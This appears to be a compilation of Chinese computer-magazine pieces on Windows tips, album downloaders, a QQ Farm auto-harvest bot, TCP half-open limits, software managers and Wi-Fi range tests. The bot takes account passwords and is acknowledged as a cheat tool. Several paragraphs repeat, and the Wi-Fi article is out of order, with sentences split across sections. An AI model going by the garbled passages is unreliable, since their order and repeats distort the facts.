@for /f "delims=" %%i in (回帖.txt) do @set i=%%i
@echo 目前回帖数=%i%
@set /a c=%i%+1
@echo %c% >回帖.txt
@ping 127.1 -n 2>nul
```

将其拖到“快速启动栏”（就是屏幕左下角，“开始”菜单旁边）。新建“回帖.txt”内容为“1”。好了，现在每回复一帖，点一下这个BAT文件就行了。由于我也是现学的，所以这个批处理文件并不完美，这里就算抛砖引玉，希望能给大家提供一种思路。

> 挑战者：翟易

## 原题重现：统计出自己的发帖量

刚看到题目还觉得比较难，想使用数据包监测或者键盘记录的方法，不过在测试之前想到了一个更完美的方法，不只CFan论坛能用，其他的只要是论坛，基本都没问题。CFan论坛为例：登录论坛后，依次单击页面左上方的“控制面板→控制面板首页”，在打开的页面中就能看到从注册至今的总发帖量。聪明的朋友可能想到要怎么做了，就是在想记录发帖量的时候事先记录下这个数值，等到结束记录时再看一下，两次的差值就是记录的时间段中的发帖量。

> 挑战者：雾雪霏云

# 校内网的老大难问题

原题重现：下载校内网相册中的照片。看完本题特意注册了个校内号试验一下，下面提供两种方法。

## 第一种：纯手工/半自动下载

进入图片所在相册，清空IE临时文件夹。然后打开你所要下载的第一张图片，点“下一张”至最后。之后再打开IE临时文件夹，其中JPG格式的图片就是。

如果图片太多可以去下个“按键精灵”点击“下一张”，以实现半自动化下载。

## 第二种：软件下载

我们可以直接使用“校内网/人人网/校内相册/批量下载程序”（下载地址：http://work.newhua.com/cfan/200920/xnxz.rar）来下载。只是这个软件有个不足之处，它会自动在你所下载的图片上加上一个“开心girl”的水印。

挑战者：狼王

原题重现：下载校内网相册中的照片。
我也曾为这个问题苦恼，不过后来我有了一个办法，之前各种批量下载器不断失效，而使用我所说的这个软件和方法却一直没有问题。

需要的软件是“网页图片保存能手”（下载地址：http://www.onlinedown.net/soft/53492.htm）。它能支持IE以及世界之窗、绿色浏览器、傲游等IE内核浏览器，可在浏览网页时直接右键调用，当然前提是需要在软件选项里设置好所使用的浏览器并选中“网页鼠标右键调用”。

首先进入相册点击第一张图片，然后右击调出该软件，点击软件界面右侧“增强”按钮，选择“自动点击取图”，然后在“增强图片筛选”下的“宽”和“高”均设置为200，“下限”。“点击方式”，设置为“点击下一张下页等换图”项，“链接类型”选为“文字链接”，并在下面的文字框中填入点击关键字，即“下一张”。再选择“获取图片”，“点击次数”根据相册图片数量设置，“点击间隔”根据网速决定，一般5秒即可，其他均不选，然后点击“取图”，则开始自动存图了，最后点击“存盘”即可。这样，一个相册的图片就能全部保存下来了。

小编点评：有了这三种方法，估计大家都能解决问题了。另外，挑战者“狼王”还提醒大家网上流传着通过替换网址中的 head 为 large 的方法已经失效。

挑战者：小黑兔

# 快速启动你的系统(3)

原题重现：快速启动电脑
这个问题如果是Windows系统的话，的确有点难。但是方法还是有的，但是限制比较大。

我们可以利用华擎主板带有的华擎即时开机(ASRock Instant Boot)功能在10秒内开机。首先，我们要确认自己的主板品牌为华擎，并且为支持Instant Boot的华擎主板（参照官网http://www.asrock.cn/feature/InstantBoot/index.cn.asp）；自己的操作系统为Windows XP或Vista（暂不支持Windows 7）。

## 第一步：

安装最新的BIOS和驱动（http://www.asrock.cn/feature/InstantBoot/download.cn.asp找到你的主板型号并安装）

## 第二步：

安装华擎主板Instant Boot即时开机工具（下载地址：http://download.pchome.net/driver/hardware/bios/detail-92059.html），一路NEXT。

## 第三步：

安装完毕后打开华擎主板Instant Boot即时开机工具，点击主菜单中的Enable Instant Boot(开启即时开机)，选择Fast Mode（快速模式），并点击Apply（应用）。关闭电脑时点击Windows的开始“菜单”点击关机就可以了。

小编点评：“华擎即时开机”其实是把电脑放在了深度睡眠状态，所以可以快速开机，因此这里要对挑战者扣掉一半的分数。

挑战者：GuoZilin

# 打造自动偷菜机

原题重现：让电脑在某一个时刻打开QQ农场去收庄稼（注：不是外挂哦）
看到这个题目，就觉得其实并不是很难，完全可以交给“QQ超级农民”解决。注意它不是外挂哦！

首先到http://www.newhua.com/soft/92493.htm下载“QQ超级农民”，解压运行后弹出登录对话框，输入账号和密码后直接登录，无需打开QQ农场界面。然后切换到“农场设置”选项卡，在“基本设置”里面“对自己、对好友”4样操作全部勾选，这样就可以实现到了果实成熟后马上能自动偷取。随后在“高级设置”里面勾选“自动播种”项目，并设置好播种的果实类型（只可惜只能有一种），并别忘了勾选并设置“当没有种子时自动购买？颗”，这样你就不必天天到QQ农场去忙活了！完全可以实现自动收获、自动播种了！怎么样方法还可以吧？

小编点评：原题可是不要外挂，自然不可能有积分赏金。本文特别给那些不在乎外挂的“农民”读者。

挑战者：舒云飞

# 关闭“好友印象”(3)

原题重现：如何关闭“好友印象”以防止好友印象骚扰

在QQ窗口左下角依次选择“主菜单→系统设置→个人资料”，在我的资料里切换到好友印象选项卡，点击右上角的设置权限，取消“允许好友对我进行描述”的勾选，然后点击确定，窗口上方会提示“不允许好友对我进行评价”，这样别人就无法对你进行评价了。但是别人仍然可以看到之前你收到的评价。在自己不喜欢的评价右上角点叉叉，就可以删除这条评论。需要注意的是，关闭好友印象再重新开启并不会使原来的印象丢失。

小编点评：QQ终于推出关闭“好友印象”的功能了，本题也到此结束了，当然既然是官方推出的关闭功能，根据原题的要求自然不会有积分赏金。这里小编还要唠叨几句，当QQ推出这个功能后，N多人都给小编投来了稿，估计有不少人都奇怪为什么稿件没有采用。这是由于本题不是最新杂志上出现的题目，在方法相同的前提下，所以根据先到先得的原则：“单身男贵族”的稿件很幸运的选中。下次有这机会大家要抓紧！

针对好友印象chw1996019也做了一定的研究：
QQ好友印象的显示规则是先显示12个好友印象，从第13个开始，先显示评价次数最多的，如果是1次的“印象”就会把最老的给替换掉，根据这个特点可以控制显示在头像上的好友印象。比如先用自己的“马甲号”给主QQ号进行评论，要保留的“印象”评两次，这样以后再有人给你评论就不会替换了（缺点是每天只能对一人一次，所以需要几天完成，当然你多弄几个QQ号也可以）。

挑战者：单身男贵族

# 偏执狂的选择：让系统清爽干净的便携软件

它，软件的一种类型，拥有如下牛X之处：
1.  无需安装，无需设置；随处可用，空间极小。
2.  开发者或软件发烧友用心在做，大部分是免费开源，如Firefox, OpenOffice等，甚至有Microsoft Office Portable（Office便携版）。

被一些成功人士说过“只有偏执狂才能成功”的话，由于操作系统和应用程序的体态越来越“臃肿”，配置越来越复杂，再加上大家便携化的需求越来越高，便携软件就开始受到很多朋友的偏爱，虽然还未到普及的程度。那么，便携软件和绿色软件是一回事儿吗？今天就一起来对它们探讨一番。

## 口号：“免安装、免配置”

要想了解便携软件，需要先熟悉绿色软件。绿软的主要特点是对操作系统无污染，不需要安装，方便卸载。从软件分类上看主要有狭义和广义两大类：

狭义的绿软，是指这个软件对现有的操作系统部分没有任何改变，类似于以前的大多数DOS程序。

广义的绿软，指对系统的改变比较少，即使有写入注册表操作，一般软件制作者已经制作好注册表配置文件或批处理，只需简单导入即可。

便携软件是便于携带，可以拷贝到便携的闪盘等移动设备，并能够运行在其他Windows系统下的绿色软件。一款便携软件，必须满足以下三个条件：
+   (1) 没有任何形式的安装。
(2) 个人设置必须紧跟着软件；这就意味着不能使用注册表保存设置。
(3) 在运行过的电脑上不留下任何痕迹。

因此，从绿软的定义上看，便携软件应该属于更为纯净的绿色软件，主要特性是“免安装、免配置”。

## 被流氓逼出来的绿软

绿软出现的时间大约是在21世纪的最初几年，那时由于流氓软件盛行，这些软件不仅往系统写入大量数据，而且卸载极为不便。因此饱受流氓软件荼毒的用户把“绿色软件”定义为“不会在用户的计算机上留下难以清除的冗余信息的软件”。其实绿软早就存在，只不过以前没人提出这个定义而已。绿软主要经历了三个过程的发展。

### 1. 都戴绿帽子的时代

在DOS时代，编程人员无需考虑平台的差异，设计的软件就可以在任何同版本的DOS下运行，可以说是“全民皆绿”。

### 2. 封装一下，绿色无忧

系统结构日趋复杂，为了简化程序安装和使用，一些编程爱好者借助封装工具，把软件安装打包成一个（或数个）简单模块，绿色软件诞生！

### 3. 随处可用的便携时代

后来，人们经常需要在不同地方用电脑，仅仅可以在本机使用的绿软已经不能满足人们的移动需求，因此绿色软件逐渐向便携性发展。

## 独树一帜，便携软件鸡生蛋

对于一些复杂的软件，无法使用常规的方法是实现“绿化”。聪明的程序员们可不是白给的，他们提出“层”的概念，借助虚拟化工具，在操作系统中“虚拟”出一个和原来应用环境一样的“层”，让程序“误以为”就是在操作系统层面运行，比较著名的如VMware ThinApp。

ThinAPP厉害之处，不在于它自身是一款特殊便携软件，而是通过它可以制作更多的便携软件，就拿我们最常用的Adobe Reader来说吧。

### 第一步：

下载VMware ThinApp。地址：http://www.portablesoft.cn/vmware-thinapp/。解压后，首先运行Setup Capture.exe，连续点击Next继续，ThinApp会扫描当前文件系统和注册表并形成一个快照。此时最小化ThinApp，开始安装并配置好封装程序，再最大化并点击Next。待自动选择好程序接入点后，点Next继续。

### 第二步：

进入Sandbox Location（沙盘位置）的设定，选择USB flash/portable media（USB闪存/便携模式）模式，用于制作便携软件。点Next进入System Isolation模式，选择Merged isolation mode（合并模式）。下一步后，设置程序保存路径，压缩模式（Compression）建议选择Fast compression（快速压缩），点Next后ThinApp开始保存程序文件，最后点击build now即可创建。

（福建/平淡）

# 够用就好，别让半开连接数让你发晕

从Windows XP时代开始，酷爱下载的同学安装完系统都要做一件事：破解系统作出限制的TCP半开连接数。即使到了Windows 7时代，这个仍然是很多同学雷打不动的铁律。不过，很多热衷于破解的同学却不知道什么是TCP半开连接数，又为什么要进行破解，破解了能带来什么好处？今天就一起来揭开这些谜团。

## 正本溯源：通上大桥前的限制

TCP半开连接是指发送了TCP连接请求，等待对方应答的状态。此时连接并没有完全建立起来，双方还无法进行通信交互的状态，此时就称为半连接。由于一个完整的TCP连接需要经过三次握手才能完成，这里把三次握手之前的连接都称之为半连接。

为了便于理解，我们把一次完整的TCP连接比作汽车通过一座大桥，在通过大桥之前的行程都称之为TCP半开连接。TCP半开连接数就是大桥的车道。由于这个半连接数量如果设置过大，不仅耗费大量系统资源，而且还可能会遭受很多DDoS攻击。因此，出于安全考虑，默认XP SP2（包括SP3）只允许同时存在10个TCP半开连接，也就是说这个大桥只有10个车道。破解就是通过修改tcpip.sys，拓宽这个大桥，使之拥有更多的车道，也就是增加TCP半开连接数。这样如果同时需要过桥的汽车较多，过桥等待的时间就更短了（注意：不是在桥上通行花费时间，是等待上桥的时间）。破解半开连接数的意义也仅此而已。

不过并非大桥越宽越好，大桥宽度要和实际车流量匹配。比如，只要设计50车道就足够车流顺畅通过，设计成100车道就是浪费了。一般来说，在2M、4M宽带条件下，TCP半开连接数只要设置为256左右即可。

## 分清概念，系统半开连接和软件连接数

经过上面的介绍，大家已经了解系统TCP半开连接数的含义。对于P2P下载软件来说，提高了系统的半开连接数后，软件就可以同时发起更多的连接（当然这个数值必须小于系统半开连接数，否则会导致EventID 4226事件警告出现）。修改系统半开连接数后，软件就可以同时发起更多的连接，找到更多的源进行连接下载。比如，对于迅雷，如果将系统TCP半开连接数设置为256，那么迅雷全局最大连接数就要小于256，这个数值可以在迅雷控制面板窗口中进行设置。

## 江湖传言，一一破解

TCP半开连接只是数据成功传输之前的“假连接”。对于实际数据传输并没有实际的影响。不过，现在网上却流传很多关于tcpip.sys的传言。来看看这些传言有没有事实依据。

**传言1：半开连接越多越好，修改后会明显提速**

如上所述，半开连接只是数据成功传输之前的“假连接”，此时并没有建立成功的TCP连接，因此对于数据实际传输是没有影响的。这里要分清半连接和TCP连接的不同含义，半开连接是系统允许同时发起连接的数量，TCP连接则是指完成握手后建立的数据传输，后者才是真正和下载速度相关的。XP系统并没有限制成功连接的TCP数量。套用前面比喻就是，微软只是控制同时过桥的汽车，但是对于通过大桥的汽车数量并没有限制。半开连接如果过多，反而造成系统负担过重，影响软件下载。

**小提示：**

为什么对下载速度没有实质提高，还要对半开连接数进行破解？同时开启网络任务较多时，由于系统限制了半开连接数，会导致网络断流现象的出现。破解后，可加快网络连接速度，缩短同时连接时的延迟时间（从几毫秒到几百毫秒）。

**传言2：全世界人民都在破解半开**

对于P2P软件来说，下载速度快慢只和源的多少、宽带本身上传/下载速率相关。因此对于宽带速率较高的用户，比如欧美用户大多使用100M的光纤宽带，此时破解TCP半开连接数就没什么意义。因为在这种高带宽条件下，系统允许发起半开连接数下就已经可以达到下载极限值了。也就是说大桥设计通行速度已经很高了，汽车到了桥头就直接飞奔而上，根本不需要等待排队上桥，因此高带宽用户无需进行TCP破解。

**传言3：Windows 7也需要破解半开限制**

还在Beta版的时候，有人就发布号称“地球第一款破解Windows 7 Tcpip.sys半开连接数限制的补丁”。实际上，从Windows Server 2008和Vista SP2开始，Windows中的TCP半开连接数限制就被禁用了。因此在Windows 7无需再进行任何的破解操作。对技术感兴趣朋友，可以使用kernel debugger(核心调试器)查看。具体操作请参考http://bbs.pcbeta.com/thread-527318-1-1.html的介绍。

不过，并非大桥越宽越好，大桥宽度要和实际车流量匹配。比如，只要设计50车道就足够车流顺畅通过，设计成100车道就是浪费了。一般来说，在2M、4M宽带条件下，TCP半开连接数只要设置为256左右即可。

# 回归传统，开启Win7操作流畅的KEY

操作系统，对于普通的用户来说，是必不可少的一种“人机交互”的途径，它是实现各种应用及操作的必备平台，可以说，一个“活”的PC必须要有操作系统做保障。然而对于微软来说，历代的Windows是他们的产品，就好像酸奶对于蒙牛一样，只有不断地推陈出新才能抓住消费者的心，并保证自己能够领先竞争对手。酸酸乳、特仑苏都是蒙牛这几年的新品，而Vista和Windows 7（下简称Win7）则是微软的新品。年轻的Vista却拥有一副老迈的身躯，运行缓慢、配置要求奇高，这加速了它的“灭亡”。而Win7在各种评测上均证实运行速度要超过Vista。同样的主题界面，同样的Aero特效，Win7为何就要比Vista配置要求更低，反倒运行速度更快呢？

操作系统，对于普通的用户来说，是必不可少的一种“人机交互”的途径，它是实现各种应用及操作的必备平台，可以说，一个“活”的PC必须要有操作系统做保障。然而对于微软来说，历代的Windows是他们的产品，就好像酸奶对于蒙牛一样，只有不断地推陈出新才能抓住消费者的心，并保证自己能够领先竞争对手。酸酸乳、特仑苏都是蒙牛这几年的新品，而Vista和Windows 7（下简称Win7）则是微软的新品。年轻的Vista却拥有一副老迈的身躯，运行缓慢、配置要求奇高，这加速了它的“灭亡”。而Win7在各种评测上均证实运行速度要超过Vista。同样的主题界面，同样的Aero特效，Win7为何就要比Vista配置要求更低，反倒运行速度更快呢？

## Win7=Vista 2.0，来得正是时候

小标题的等式不是微软官方资料，但这是他们不愿承认的事实。从几年前Vista上市开卖直到Win7的正式版发布，Vista所走的基本上就是一条不断下滑的路线：且不说卖不动的正版光盘，即使预装在品牌机上的系统，也有超过一半的比例被用户改为XP系统。究其根本原因，在于运行速度不快，兼容性也很差劲。还有一点就是生不逢时：它对XP几年来给用户养成的习惯做了太大的改动，用户乃至相应软件厂商（如，DirectX10应用开发商）一时无法接受。而Win7呢，充当了老好人的角色，在Vista的基础上进行了大量的完善工作，并且加入不少新特性。这时候，软件厂商和用户都已经做好了准备，可谓来得正是时候。

软件厂商和用户都已经做好了准备，可谓来得正是时候。

## 3D窗口拖累了速度

3D操作界面、Aero特效，是Vista相比于XP的最大区别之一，也是Vista运行缓慢的原因。和Vista一样，Win7本身也是一款使用3D界面进行操作的大型3D“程序”。那为什么Win7就要流畅许多呢？影响窗口操作流畅度的关键所在是图形界面，它也是Windows系统的核心，是相比DOS系统和一些Linux系统的最大优势。就好比玩大型游戏需要一块儿好显卡支持一样，3D界面的Vista和Win7自然也需要在显示技术上做些文章。当然，2D的XP就不需要费这个脑子。

图形界面并不是直接就与CPU和显卡沟通的，它首先要找到系统内部的组件，靠图形接口(GDI)和加速技术(Direct3D)沟通，然后再通过窗口显示驱动模型WDDM(Windows Display Driver Model，见图1)来和硬件完成沟通。

## 恢复传统，终归流畅

XP时代，2D窗口的图形接口GDI完全依靠硬件加速，而且窗口没有花哨的3D，避免了对显卡的过多要求和速度上的拖累。而Vista的窗口处理，2D部分依然是GDI，3D部分交给了Direct3D，令人不解的是，居然摒弃了GDI的硬件加速，完全由“软件”系统自身来搞定。GDI应用程序先经过CPU软件处理到系统内存上，再传输到显卡驱动分配的“地盘”中，由DWM(Desktop Windows Manager，桌面窗口管理器)负责将画面合成并输出到显示器。虽然Direct3D有硬件加速，大部分的2D应用程序还是需要GDI来处理，所以整体的操作要慢于XP下的操作。

而在Win7中，微软吸取教训恢复了传统——GDI交给硬件加速。这让Win7的窗口操作有种XP的感觉：瞬间打开，切换自如。这归功于WDDM1.1的推出。在新模型当中，单独的GDI会通过WDDM与显卡核心GPU进行硬件加速，再输出到桌面窗口管理器DWM（见图2）。表现在实际操作上，就是大部分窗口操作都变得比Vista更流畅，日常工作更快捷。

小知识：说说GDI和WDDM
GDI的全称是Graphics Device Interface，是2D时代系统的主要图形接口。XP时代采用的驱动模型是XPDM，从Vista起，Windows就采用了新的驱动模型：WDDM。驱动模型在很大程度上决定了一个系统的图形特性。

小提示：Win7在图形架构方面的主要更新：
WDDM 1.1：新的驱动模型。
DirectX 11：新版Direct3D 11；新版Direct2D API。
DXVA-HD：高清视频回放加速。
显示设备连接和配置：Win+P快速选择多显示器。
多GPU系统。

（文/闰年的冬日）寻找最好用的软件“管家婆”

敲几行命令，设置一大堆参数来玩电脑的时代已经过去了，现在是工具软件的天下，几乎有什么需求就有什么样的工具软件，一来二去，装了好多软件，管理起来就是一个麻烦事了。幸好这管理软件的软件也有不少，要问哪个更好？还要来CFan研究院逛一逛。

毋庸置疑的测试平台

为了对比出软件管理工具的性能，本次测试特别选用了小白平时测试软件的系统，装满了乱七八糟的软件，如果这种环境下，软件都能做好软件的管理，那么广大读者的系统就更不在话下了。

硬件配置单如下：
CPU: Intel Core T7400 @ 2.16GHz
内存: DDR2 667 2GB
主板: Intel 945GM
显卡: GeForce 7400
硬盘类型: SATA 7200 RPM
操作系统: Windows XP pro SP3
网络环境: 1M网络ADSL。

客观公正的评测队伍

本次评测更加注重了参与性和互动性，先由CFan论坛网友投票选出最关心的软件功能，然后由《电脑爱好者》全体软件编辑和热心读者共同完成测试，保证了测试结果的公正。

实用为主的评测理念

秉承“实用至上”的准则，我们打破软件的枯燥功能对比，从我们管理软件的需求出发，通过科学的对比实验模拟平时的几大需求，并用直观的数字告诉你优劣。

我们的测试对象

- 360安全卫士V6.0.1
  http://www.360.cn/
- 超级兔子V9.1
  http://www.pctutu.com/
- 迅雷软件助手1.5.2
  http://dl.xunlei.com/
- GT软件管理1.3.0.9
  http://box.gtbox.cn/

才艺展示

360安全卫士
360软件管家虽是360安全卫士的一个组件，不过安装后会建立单独的启动快捷方式，是“软件管理”概念的前驱软件。经过几个版本的发展，目前软件功能丰富，功能的细节上也逐步提高，软件推荐细化为装机必备、学生必备、游戏必备等几个类别，软件检测增加评分和升级功能提示，还有手机和游戏软件推荐。可以检测正在运行的软件和设置默认软件。

超级兔子
超级兔子的软件管理功能融合在软件里面，没有独立出来。需要运行“升级天使”然后启动“软件管理”。主要提供已安装软件的检测、升级提示和卸载，分类详细。其他如启动项管理等功能融合在超级兔子的魔法设置中。

迅雷软件助手
凭借开发迅雷的经验，迅雷软件助手设计的功能很全面，流行软件一键安装，本机软件列表备份，与“小众软件”联合推出了“软件推荐”功能，并结合自身资源，推出软件下载排行，增加了游戏下载功能。

GT软件管理
GT是近期才出现的软件品牌，以软件管理命名的它，界面简洁，功能尚不丰富，不过运行软件检测、软件推荐、软件下载、升级和卸载几大主流功能样样俱全。

实例测试

实例一 看看我都装了哪些软件

要管理软件，首先得看看这个“管家婆”能否都认得电脑里的软件。首先我们通过Windows的控制面板查看到评测机共有237个程序，其中系统补丁141个，96个程序。接下来看看选手们的表现。

360安全卫士
运行软件后，切换到“软件卸载”，看到软件检测到98个软件，软件归为18个分类，没有安排类别的“其他”中有20个，在上方有搜索框，可通过关键字来查找软件。

超级兔子
运行后先检查软件数据和装机必备数据，初次运行花费十几秒钟的时间，提示安装了255个软件，其中83个补丁，软件分为16个类别，没有安排类别的59款。

迅雷软件助手
运行后检测出126款软件，分为12个软件类别，其中放在其他类别里的包含补丁在内共有90个项目，可以按类别显示，并有使用频率的记录。

GT软件管理
检测到安装了123款软件，没有分类。

点评：
对比来看，360安全卫士检测的软件最多，不过我们也注意到，它们都无法检测出已经安装的绿色软件。

实例二 检查哪些软件需要升级

无论是出于功能升级，还是考虑到安全，软件升级都很有必要。不过软件多了，谁也没有精力天天去关注每个软件是否要升级，软件管理工具能否帮我们做到这点呢？我们分别用四款软件进行了测试，看都有哪些软件需升级，并分别用四个工具升级迅雷和超级兔子，对比所用时间。

| 软件 | 检测需更新的软件 | 升级迅雷耗时 | 升级超级兔子耗时 | 是否提示有插件 | 是否提示新功能 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 360安全卫士 | 迅雷、超级兔子、影音转码快车、QQ游戏、Turbo Photo | 1分24秒 | 4分30秒 | 是 | 是 |
| 超级兔子 | 超级兔子 | 无 | 1分50秒 | 否 | 否 |
| 迅雷软件助手 | 迅雷、超级兔子魔法设置、QQ游戏、Adobe Shockwave Player | 1分27秒 | 2分20秒 | 是 | 否 |
| GT软件管理 | 迅雷、KmPlayer | 1分40秒 | 无 | 否 | 否 |

点评：
通过对比我们发现，软件更新的检测没有一款软件可以检测全面，360安全卫士检测到更新会有醒目的提示，列表中会展示软件旁边的“新版功能”，对于软件是否捆绑有插件，360安全卫士会弹出提醒，而迅雷软件助手的插件提示会更详细，超级兔子的功能较弱，只有单击具体类别时才会有需更新的提示。

实例三 精简软件自启动项目

软件安装多了，随系统自启动的软件也会很多，管理自启动自然也是软件管理的一大任务。四款软件如何帮助我们精简启动项目呢？

360安全卫士：
在“开机加速”中，它将启动项目分为：服务项、启动项、计划任务，共检查出39个启动项，软件启动项14个，每项均有操作建议，建议分为“建议维持现状，建议开机启动，可以禁止启动”三个类别，不可编辑添加。拥有“一键自动优化”功能。

超级兔子：
超级兔子对软件启动项的管理是由“魔法设置”来完成的，排除系统服务，在启动程序里可以检测到21个自启动项，软件启动项14个，只有两项有操作建议，给出“建议保留、可取消”的提示，可编辑、添加自启动项。

迅雷软件助手：
在“软件管理”中的“开机启动软件”里，检测到28个自启动项目，选中某个启动项后，下面会有详细的描述，以及网友对此的相关讨论。启动项后面有该项的命令行，但没有实际的操作建议。

GT软件管理：
没有启动项管理功能。

点评：
很明显，360安全卫士获胜。

实例四 找到需要的软件

对初级用户来说，查找需要的软件还是有点困难的，尤其是同类软件争奇斗艳的今天，为了帮你找到需要的软件，四款软件的推荐功能就有用武之地了。

360安全卫士：
软件推荐分成了装机必备和软件宝库，软件宝库收录了1192款软件，划分为19个具体类别，每一款软件都有网友评分（360安全卫士用户投票），并给出是否收费的提示，找到喜欢的，单击下载即可自动下载，有是否包含插件的提示，并可以设置已下载的安装文件进行自动删除的模式。

超级兔子：
软件“升级天使”中的“装机必备软件”收录了18个类别的74款软件，支持批量安装，有一个“推荐软件”的名单（10款），但没有提供信息帮助用户选择软件。

迅雷软件助手：
具有“流行软件一键安装”功能，共收录了14个类别的247款软件，软件信息包含有无插件、是否收费，以及软件星级评分（评分模式不详），可以按字母顺序、使用热度（即下载排行）来检索软件，在类别模式中支持批量安装。

GT软件管理：
提供了装机必备和软件大全两个功能，软件大全分11个类别进行推荐软件（未提示数量），没有帮助用户选择软件的信息提示。

点评：
360安全卫士和迅雷软件助手功能最为丰富，细分起来还是360安全卫士胜出。

评测手记：
软件的卸载功能比较简单，我们就不做过多说明了，只有360安全卫士在具有标准卸载外，增加了强力清扫功能，可以清除软件注册表痕迹。

以软件管理为名的软件还有来自腾讯的“QQ软件管理”，目前已经是1.0 Beta，只是它管理的只是属于腾讯的软件，有些单一，所以没有纳入本次评测中。

终结 PK 一起来找茬

360安全卫士：
管理软件的升级过程中下载文件速度慢。

超级兔子：
捆绑IE守护天使，修改主页，软件分类不清，有太多软件列为其他类别，没有设置图像相关分类。

迅雷软件助手：
安装时有“百度超级搜霸”的捆绑安装。

GT软件管理：
安装后默认修改主页。

研究院测试报告
通过几轮测试，360安全卫士的软件管理功能是最为全面的，迅雷软件助手已经在某几个方面有赶超的趋势，利用其下载的优势，相信会成为360安全卫士最大的对手。GT软件管理刚刚起步，软件功能还需提高，而超级兔子目前显然没有把软件管理作为一个组件单独提出来，对功能的研发没有跟上。综合来看，管理软件最好的360安全卫士的360软件管家，颁发“编辑推荐奖”。

探究无线信号传输的“强弩之末”

在家庭、办公室及咖啡馆、机场等场合，随处都可看到Wifi的身影，不少人也开始在自己家里搭建无线网络，来摆脱网线的束缚。那么接下来，大家就开始思考一个问题了，一台家用无线路由的无线信号可以传多远？隔几间屋子还能收到吗？甚至楼上楼下能共用一台无线路由吗？

那我们再回到上一个问题，为什么几个测试点的速率都不到理论值的三分之一呢？仔细研究我们发现，原来我们选取的几个测试点都和A点隔了数量不同的墙面。无线信号是以电磁波的形式进行传播的，遇到障碍物就会发生衰减，几堵墙之后的速率也就自然发生了很大的变化。D点与A点隔着两堵墙，其他三点也都隔了一堵墙，那么，这个衰减又是怎么的方式呢？

要原因。至于卫生间所采用的12 CM隔断墙则毫不惧怕，这也是E点虽然处于密闭空间当中，但是传输速率反倒最高的个中缘由。

除了墙壁、楼层等会影响传输距离外，事实上，无线网络的安全特性也会影响传输性能。据测试表明，在加入安全特性后，无线网络的传输速度会损失5%至77%，例如当采用WEP 128位加密传输模式时，网络传输性能会损失28%~75%，这也会至少降低5%以上的无线传输距离，即便无线信号能覆盖较远的地方，无线传输速度也慢得惊人。

被骗了？实际不等于理论？

为了解答前面的疑问，我们就来真正测试一下。首先我们选定无线网络的种类，这里我们不妨选择目前流行的802.11n技术。现在来实际测试一下无线信号到底能走多远？

我们将一台使用了三根天线的TP-Link TL-WR941N放置在120平方米左右的两居室里的A点。然后我们分别测试一下B、C、D、E处的信号强度。

虽然几个测试点都可以通讯良好，但在信号最差的D点只能达到6.3 Mbps的速率，B、C、E三个测试地点速率分别达到了55.9 Mbps、91.9 Mbps、93.4 Mbps。这样看起来，这些数据离802.11n技术所支持的300 Mbps是有一定差距的。那这是为什么呢？理论值和实际值如此大的反差，是路由器有问题还是信号的衰减造成的？

802.11n技术理论上可在空旷地带实现300米传输距离。即在客厅、宿舍、办公室等单一环境下，借助802.11n技术可覆盖以路由器为中心的半径为300米的范围。

衰减与增益？看不见的秘密

在确保有信号的情况下，802.11n能隔几堵墙？几层楼呢？其实这要根据具体的应用环境而定。一般而言，信号损耗是无线节点到用户之间距离的函数，在理想视距条件下（例如在一个大的办公室里），信号损耗与距离的平方成正比。在普通环境中（如卧室与客厅之间），信号损耗与距离的立方成正比，而在不利的条件下（如楼上楼下或邻居与邻居之间），信号损耗通常等于距离的四次方。

由此我们可以发现，802.11n技术的无线路由器，对于厚度超过28 CM的承重墙，显然是最为惧怕的，这就是为什么B和D点传输速率受到影响的最主要

> 小提示：
由于普通ADSL虚拟拨号的带宽只有1 Mbps，所以即便只有6.3 Mbps的速率也可以轻松满足宽带上網需求。在这个应用方案当中，无线上網几乎没有任何影响，只是在多机共享的数据传输中，稍微会感觉不同地点的速率差异。

既然有衰减，那么市场上的增益天线是否起作用呢？增益天线是一个由多组独立天线组成的天线阵列系统，该阵列的输出与收发信机的多个输入相结合，可提供一个综合的时空信号。与单个天线不同，天线阵列系统能够动态地调整波束的方向，以使每个用户都获得最大的主瓣，并减小了旁瓣干扰，扩大了无线信号的最大覆盖范围。

(文/川行于世)

纪念动感超人 搞到动感相册

原题重现：下载QQ相册、动感相册，同时查看相片拍摄所用的相机。

解决这个问题，我们需要求助两个工具：风很凉QQ相册图片批量下载器（下载地址：http://work.newhua.com/cfan/200922/qqscxz.zip）和灰太狼QQ动感影集下载器（下载地址：http://work.newhua.com/cfan/200922/qqphotos.zip）。

下载QQ相册
打开风很凉QQ相册图片批量下载器，在相应位置填入QQ号，单击“读取相册”按钮，稍等片刻，在下面的列表中就会列出该QQ号空间中的相册信息。接着，只要把需要下载的相册前面的方框打上钩，选择好保存文件路径，单击“开始下载”。接下来，你就可以泡杯茶，等着它把照片统统“搬回家”了。注意，在读取相册之前，请先确定本机所登录的QQ对其空间是否有访问权，并且如果要下载加密相册，需要输入密码，方可下载。

下载动感影集
这一步有点复杂。首先我们需要找到动感相册的地址：进入相册所在的QQ空间，打开所要下载的动感影集，待动感影集开始播放时，单击Flash中的“复制地址”按钮（这里注意，不能单击Flash上方的“复制地址”），此时，动感相册的地址就复制到了剪贴板。接着，打开灰太狼QQ动感影集下载器，把刚才复制的地址粘贴到相应的文本框中，如果要下载相册的背景音乐，还可以勾选软件界面左边“自动下载相册背景音乐”这个选项。最后，单击“下载相册”，很快，相册就下载完了。

> 小提示：
如果要查看照片是用什么牌子型号的照相机拍的，那就要查看相片的EXIF信息。查看很简单，右击图片文件，单击“属性”，选择“摘要”标签，单击“高级”，即可看到关于该图片文件的EXIF信息。

小编点评：动感影集的照片是用什么相机拍照的呢？这点可没有解决。关于这道题，很多读者只投来了下载QQ相册的方法，要知道“动感影集”才是本题的重点。

挑战者：浙江/邢宸斐

STOP！我的操作定格在硬盘上！

原题重现：把游戏状态保存，处理完其他事情后，继续开始。

我的方法很简单，就仅仅是利用虚拟机的快照功能！至于虚拟机的下载和使用方法，网上很多啦，我这里就只提如何把不能保存的游戏“定格”下来。在把虚拟机和虚拟系统安装好后，进入虚拟机系统，运行游戏后，如果有事需要中断，可以点击红色方框里的暂停按钮，完成快照的建立。当需要恢复此系统时，就点一下左上角的播放按钮即可恢复快照。

相信提问的朋友玩的不是什么大游戏，所以在虚拟机里玩游戏应该不成什么问题。如果是较大的游戏的话也不是什么难事，只要你的物理内存有2G或以上，给虚拟系统分配1G的内存来使用就差不多啦。

